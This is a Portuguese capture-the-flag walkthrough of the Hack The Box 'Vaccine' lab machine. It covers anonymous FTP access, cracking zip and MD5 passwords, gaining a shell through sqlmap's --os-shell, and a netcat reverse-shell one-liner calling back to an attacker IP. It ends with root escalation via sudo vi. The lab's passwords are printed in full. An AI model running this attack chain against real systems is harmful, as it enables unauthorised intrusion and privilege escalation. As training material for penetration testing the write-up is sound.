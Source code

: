 # Maquina Vaccine do HTB

---

## Qual outro serviço está rodando além do SSH e HTTP?
Está rodando na porta 21 o FTP.

### Saída do Nmap:
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```
Para poder acessar o servidor web é necessário colocar o IP da box no arquivo `/etc/hosts`, já coloquei caso seja necessário.

---

## Qual nome de usuário podemos acessar o FTP sem senha?
Por padrão, caso não seja desativado no sistema, é possível logar como usuário **anonymous**, usando o comando:
```bash
ftp <IP>
```
Após isso, ele pede o usuário onde você deve escrever `anonymous` e, para a senha, basta apertar *Enter*. Quando logado, conseguimos listar os arquivos com o comando `ls`, descobrindo um arquivo zip chamado `backup.zip`, que pode ser baixado com o comando `get`.

---

## Qual o nome do arquivo que baixamos no serviço?
**Backup.zip**

O arquivo está protegido por senha. Para isso, usaremos o **John The Ripper** com os seguintes comandos:
```bash
zip2john backup.zip > hash.txt
john --wordlist=rockyou.txt hash.txt
```
Após quebrar o hash, descobrimos que a senha é **741852963**. Podemos descompactar o arquivo com:
```bash
unzip backup.zip
```
Ele extrai dois arquivos: um `.php` e outro `.css`.

---

## Qual script do John podemos usar para gerar um hash de senha do arquivo zip?
`zip2john`

---

## Qual a senha do admin para o website?
Dentro do arquivo `.php`, há um formulário com o login **admin** e a senha criptografada **`2cb42f8734ea607eefed3b70af13bbd3`**.

Essa senha está em **MD5**. Após descriptografá-la, obtemos:
```bash
qwerty789
```

---

## Que opção pode ser passada para o SQLMAP para tentar obter a execução de comando por meio da injeção de SQL?
`--os-shell`

Após logar no site como administrador usando a senha descoberta anteriormente, estamos na página autenticada. Pegamos a **URL** e o **cookie da sessão** e tentamos obter uma shell através do **sqlmap** com:
```bash
sqlmap -u "http://vaccine.htb/dashboard.php?search=test" --cookie="PHPSESSID=9m3tqfkvcdfadc88afl3c6jb5q" --os-shell
```

---

## Qual programa o usuário `postgres` pode rodar como root usando `sudo`?
Após acessar uma shell através do SQLMap, realizamos uma **conexão reversa** com `ncat` no nosso servidor utilizando o comando:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.216 4444 >/tmp/f
```
O comando foi gerado pelo site [RevShells](https://www.revshells.com/), onde inserimos nosso **IP (10.10.15.216)** e **porta (4444)**.

Para melhorar a interação com o shell, usamos:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z  # Joga para background
stty raw -echo; fg
stty rows 38 columns 116
```

Posteriormente, usamos:
```bash
cd /var/www/html
```
No arquivo `dashboard.php`, encontramos a senha do usuário `postgres`:
```bash
user=postgres
password=P@s5w0rd!
```
Executamos:
```bash
sudo -l
```
E obtemos a seguinte saída:
```bash
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
Isso significa que podemos usar `vi` como root.

Tendo o login e senha do `postgres`, podemos fazer login via **SSH**:
```bash
ssh postgres@<IP>
```

---

## Submit user flag
Com o comando `cat`, podemos visualizar a flag do usuário no terminal.
```bash
cat /home/<usuario>/user.txt
```

---

## Submit root flag
Como `vi` pode ser executado como **root sem senha**, abrimos o arquivo de configuração:
```bash
sudo vi /etc/postgresql/11/main/pg_hba.conf
```
E utilizamos o método do **GTFOBins** para obter uma shell root:
```bash
:set shell=/bin/sh
:shell
```
Agora, conseguimos acessar `/root` e ler a flag com:
```bash
cat /root/root.txt
```

---

# 🎯 Com isso finalizamos a máquina! 🚀
